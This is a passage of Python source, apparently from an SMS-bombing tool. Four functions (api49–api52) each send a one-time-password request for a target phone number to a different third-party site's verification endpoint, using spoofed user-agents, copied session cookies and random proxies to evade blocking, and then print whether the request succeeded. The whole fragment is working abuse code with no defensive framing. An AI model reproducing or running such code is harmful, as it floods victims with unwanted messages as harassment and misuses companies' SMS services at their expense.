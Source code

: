 def api49(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://dso.panggame.com/1/verify/send",headers={"content-type": "application/json;charset=UTF-8","user-agent": "Mozilla/5.0 (Linux; Android 6.0.1; SM-J700F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36","cookie": "_ga=GA1.1.1204499527.1666053101;_gcl_au=1.1.1227846426.1666053101;_fbp=fb.1.1666053101625.1278839242;_ga_2THGVDHQ7D=GS1.1.1666053101.1.1.1666053106.55.0.0;buttMsg=1666053125212"},json={"verify_source":1,"verify_type":1,"phone":f"{phone[1:]}","areacode":"66"},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
		
def api50(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://admin-api.24fix.tech/auth/otp/request",headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36"},json={"phoneNumber":phone},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api51(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = post("https://www.vegas77slots.com/auth/send_otp",data=f"phone={phone}&otp=&password=&bank=&bank_number=&full_name=&ref=21076",headers={"content-type": "application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","cookie": "vegas77slots=pj5kj4ovnk2fao1sbaid2eb76l1iak7b"},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api52(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://kaspy.com/sms_63Vswc5dWk/sms.php/",headers={"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8","X-Requested-With": "XMLHttpRequest","User-Agent": "Mozilla/5.0 (Linux; Android 6.0.1; SM-J700F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36","Cookie": "PHPSESSID=mvqfmd1daih60ep28gj9nrn04s; __atssc=google%3B1; __atuvc=2%7C42; __atuvs=634df68d89321b08001; private_content_version=93eb667db1caa66571dcb26591913a1e; mage-cache-storage=%7B%7D; mage-cache-storage-section-invalidation=%7B%7D; mage-cache-sessid=true; form_key=fSk22U7uobzfYUUe; section_data_ids=%7B%22cart%22%3A1666053825%2C%22messages%22%3A1666053825%2C%22customer%22%3A1666053825%2C%22compare-products%22%3A1666053825%2C%22last-ordered-items%22%3A1666053825%2C%22directory-data%22%3A1666053825%2C%22captcha%22%3A1666053825%2C%22instant-purchase%22%3A1666053825%2C%22persistent%22%3A1666053825%2C%22review%22%3A1666053825%2C%22wishlist%22%3A1666053825%2C%22chatData%22%3A1666053816%2C%22recently_viewed_product%22%3A1666053825%2C%22recently_compared_product%22%3A1666053825%2C%22product_data_storage%22%3A1666053825%2C%22paypal-billing-agreement%22%3A1666053825%7D; _ga=GA1.2.1819946247.1666053827; _gid=GA1.2.2014825757.1666053827; _gat=1; mage-messages="},data=f"phoneVerifyFromSites={phone}",proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
			